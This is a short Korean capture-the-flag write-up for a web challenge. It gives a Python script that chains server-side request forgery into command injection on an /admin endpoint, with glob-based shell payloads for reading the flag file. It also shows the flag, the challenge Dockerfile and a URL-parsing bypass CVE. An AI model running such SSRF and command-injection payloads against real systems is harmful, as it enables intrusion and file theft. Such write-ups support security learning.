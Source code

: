 `/admin`에서는 노가다하면 된다.

블랙박스 문제이기 때문에 라업을 이거는 가져왔다.

**Unintend Solution**

```py
from requests import *
from base64 import b64decode
from urllib.parse import quote

url = "https://b64siteviewer.1nf1n1ty.team"

def send(payload):
    res = post(url, data={"url":"http://0:5000/admin?cmd=" + quote(payload)})
    data = eval(res.text.split(':')[1].strip())
    data = b64decode(data).decode()
    return data

# print(send('{tail,..${HOME:0:1}f???.txt}'))
print(send('{tail *'))
# ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}
```

---

**Intended Solution**

```docker
FROM python:3.9.7

COPY /challenge /chall

WORKDIR /chall

RUN mv flag.sh /usr/local/bin/flag

RUN pip install -r requirements.txt

ENV flag ironCTF{redacted}

EXPOSE 5000

CMD ["python","-m","app"]
```

docker file에서 python:3.9.7을 사용한다.

[CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)

url이 whitespace로 시작해도 제대로 요청이 된다.

`flag.sh`이 `/usr/local/bin`에 있기 때문에 스크립트를 실행할 수 있다.

```sh
#!/bin/bash

inp=$1

if [[ $flag == $inp ]]
then
	echo "This is the flag"
else
	echo "no"
fi
```
